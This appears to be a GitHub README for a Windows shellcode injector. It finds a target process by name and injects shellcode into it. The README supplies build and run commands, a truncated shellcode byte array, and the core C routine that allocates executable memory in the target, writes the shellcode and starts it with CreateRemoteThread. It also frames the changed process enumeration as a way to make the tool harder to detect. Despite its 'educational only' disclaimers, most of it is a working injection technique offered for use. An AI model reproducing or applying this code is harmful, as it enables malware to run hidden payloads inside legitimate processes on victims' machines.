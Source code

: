 

# Process Scanner & Shellcode Injector (v2)

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&width=435&lines=Process+Injection+Techniques+Update;Windows+Remote+Process+Scanner+&+Shellcode+Injector+v2;" alt="Typing SVG" /></a>

This is the second version of a powerful Windows tool designed to scan for a specific process by its name and inject shellcode into it. This version introduces enhancements over the first version, offering improved process enumeration techniques for more comprehensive scanning. The tool remains targeted for educational purposes and malware analysis, showing how process injection works within Windows environments.

**Note**: This tool is intended for controlled environments like malware research, pentesting, or debugging. It should never be used for malicious purposes.

---

## New in Version 2

In the first version, we used `CreateToolHelp32Snapshot` for process enumeration, which, although effective, might not capture all processes in certain scenarios. **This second version replaces `CreateToolHelp32Snapshot` with `EnumProcesses`**, offering a more thorough approach to process enumeration. 

**Why the update?**  
Malware authors often seek to evade detection by implementing process scanning techniques in various ways. By using multiple approaches for process enumeration, they increase unpredictability in their behavior. This version demonstrates an alternative technique that broadens the scope of scanning, making the tool more robust and unpredictable.

---

## Features

- Scans through all active processes using `EnumProcesses`.
- Locates a target process based on user input.
- Injects shellcode into the identified process.
- Provides detailed feedback and logs during the injection process.

---

## Prerequisites

- **Operating System**: Windows (requires admin privileges)
- **Compiler**: MinGW or Visual Studio (MSVC)
- **Windows SDK**: Required for process enumeration and memory manipulation APIs.
- **Knowledge**: Familiarity with shellcode and process injection principles.

---

## How It Works

This version now uses the `EnumProcesses` API to enumerate all active processes in the system. Once the list of processes is obtained, each process is opened and its name is retrieved using `GetModuleBaseName`. The name is compared with the user-provided target, and if matched, the shellcode is injected using a similar approach to the first version: memory allocation, shellcode writing, and remote thread creation.

### Injection Workflow:

1. **Process Scanning**: Scans all processes using `EnumProcesses` to get a full list of running processes.
2. **Process Name Matching**: Retrieves and compares each process’s name to the target process name.
3. **Process Opening**: Opens the identified target process with `PROCESS_ALL_ACCESS` privileges.
4. **Memory Allocation**: Allocates executable memory in the target process.
5. **Shellcode Injection**: Injects shellcode into the allocated memory.
6. **Remote Thread Execution**: Creates a remote thread in the target process to execute the shellcode.

---

## Usage

### Clone the repository:
```bash
git clone https://github.com/your-username/process-scanner-shellcode-injector.git
cd process-scanner-shellcode-injector
```

### Compile the Program:

#### Using MinGW (`gcc`):
```bash
gcc -o scanner_injector.exe scanner_injector.c -lkernel32 -luser32 -lpsapi
```

#### Using Visual Studio:
- Open the provided solution in Visual Studio.
- Build the solution (Ctrl + Shift + B).

---

### Run the Program:
```bash
scanner_injector.exe <ProcessName>
```

#### Example:
```bash
scanner_injector.exe notepad.exe
```

### Example Output:
```bash
Found the process: notepad.exe with PID: 1234
Allocated 512 bytes with PAGE_EXECUTE_READWRITE permissions inside PID 1234
Injected 512 bytes of shellcode into process memory
Created a remote thread with ID 5678 in the target process
```

---

## Shellcode Example

Modify the example shellcode (`R0m4InShell[]`) based on your requirements. Make sure that the shellcode is appropriate for testing purposes.

```c
unsigned char R0m4InShell[] = {
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
    // ... additional bytes truncated
};
```

---

## Code Breakdown

The following snippet illustrates the core part of the updated process enumeration using `EnumProcesses` and the rest of the injection logic:

```c
DWORD aProcesses[1024], cbNeeded, cProcesses;
if (!EnumProcesses(aProcesses, sizeof(aProcesses), &cbNeeded)) {
    return 1;
}

cProcesses = cbNeeded / sizeof(DWORD);
for (unsigned int i = 0; i < cProcesses; i++) {
    if (aProcesses[i] != 0) {
        hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, aProcesses[i]);
        if (hProcess != NULL) {
            GetModuleBaseName(hProcess, NULL, szProcessName, sizeof(szProcessName)/sizeof(TCHAR));
            if (wcscmp(szProcessName, target) == 0) {
                PID = aProcesses[i];
                break;
            }
            CloseHandle(hProcess);
        }
    }
}

hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
rBuffer = VirtualAllocEx(hProcess, NULL, sizeof(R0m4InShell), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, rBuffer, R0m4InShell, sizeof(R0m4InShell), NULL);
hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, &TID);
```

---

## Disclaimer

This tool is for **educational purposes only**. Misuse of this tool can lead to severe legal consequences. The developer is not responsible for any damages caused by the misuse of this tool. Always ensure you have the proper permissions to test and inject into processes, especially in production environments.
